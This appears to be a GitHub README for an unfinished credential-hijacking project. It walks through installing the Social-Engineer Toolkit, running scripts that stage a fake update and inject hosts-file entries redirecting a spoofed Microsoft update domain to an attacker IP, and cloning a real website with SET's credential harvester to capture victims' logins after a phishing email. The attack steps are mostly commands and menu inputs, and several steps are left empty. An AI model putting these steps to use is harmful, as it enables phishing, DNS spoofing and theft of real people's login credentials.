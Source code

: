 # WARNING: This is a development project and is not READY for USING ;)
- BR
------------------------------------------------------------------------------------------
# SSTC-HTTPS-hijack-login-credentials 
- by nu11secur1ty

![](https://github.com/nu11secur1ty/SSTC-HTTPS-hijack-login-credentials/blob/master/logo/https_image-620x499.jpg)


- Installing requirements
     https://github.com/trustedsec/social-engineer-toolkit

- Preparing packages
For other Linux distro attackers
```
$ git clone https://github.com/trustedsec/social-engineer-toolkit/ set/
$ cd set
$ pip install -r requirements.txt
```
------------------------------------------------------------

# Exploit steps:

1. - Preparing for fake update for the victim:
```bash
cd SSTC-HTTPS-hijack-login-credentials/Attacker/sh1mazu_https_fake
bash sh1m@zu.sh
[1]
     enter
```

2. - Preparing your hosts-file for exploiting of the victim:
     
     // fakesite.login.com
```bash
cd SSTC-HTTPS-hijack-login-credentials/Attacker/hosts_fake_inject
bash fakehost.sh
     type the attacker IP _your_IP
     type the fake domain microsoft.update.com
     enter
```
3. - Exploit the victim
```bash
```
-------------------------------------------------------------

***SECOND PART***

1. - setoolkit cloning of real website
```bash
setoolkit
1) Social-Engineering Attacks
     set>1
     enter
2) Website Attack Vectors
     set>2
     enter
3) Credential Harvester Attack Method
     set:webattack>3
     enter
2) Site Cloner
     set:webattack>2
     enter
set:webattack> IP address for the POST back in Harvester/Tabnabbing [10.10.10.100]:_your_local_layer2_IP_
     enter
[-] Example: http://www.thisisafakesite.com
set:webattack> Enter the url to clone: _your_site_
     enter
     enter
```
2. - Sending a hijack email of the victim.
```bash

```

3. - Receiving the hits from browser of the victim





